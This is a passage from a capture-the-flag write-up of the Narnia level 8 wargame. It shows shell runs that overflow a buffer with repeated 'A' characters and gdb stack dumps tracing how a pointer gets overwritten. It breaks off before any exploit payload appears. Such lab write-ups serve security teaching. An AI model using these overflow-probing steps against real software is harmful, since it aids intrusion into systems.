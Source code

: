 Here we have a potential overflow in the **bok** variable, but if we try to overflow it we got some weird results :

```
narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print 20 * "A"')
AAAAAAAAAAAAAAAAAAAA�������������
narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print 21 * "A"')
Segmentation fault
```

We need to dig deeper, place a breakpoint at _printf()_ in the _func()_ function and run the code…

```
narnia8@narnia:/narnia$ gdb narnia8

(gdb) set disassembly-flavor intel
(gdb) disas func
Dump of assembler code for function func:
   0x0804841b <+0>:	push   ebp
   0x0804841c <+1>:	mov    ebp,esp
   0x0804841e <+3>:	sub    esp,0x18
   0x08048421 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048424 <+9>:	mov    DWORD PTR [ebp-0x4],eax
   
...[removed]...

   0x0804847f <+100>:	push   eax
   0x08048480 <+101>:	push   0x8048550
   0x08048485 <+106>:	call   0x80482e0 <printf@plt>
   0x0804848a <+111>:	add    esp,0x8
   0x0804848d <+114>:	nop
   0x0804848e <+115>:	leave
   0x0804848f <+116>:	ret
End of assembler dump.

(gdb) break *func+106
Breakpoint 1 at 0x8048485

(gdb) run $(python -c 'print 20 * "A"')
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740

(gdb) run $(python -c 'print 21 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 21 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffc541
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740

(gdb) run $(python -c 'print 22 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 22 * "A"')

```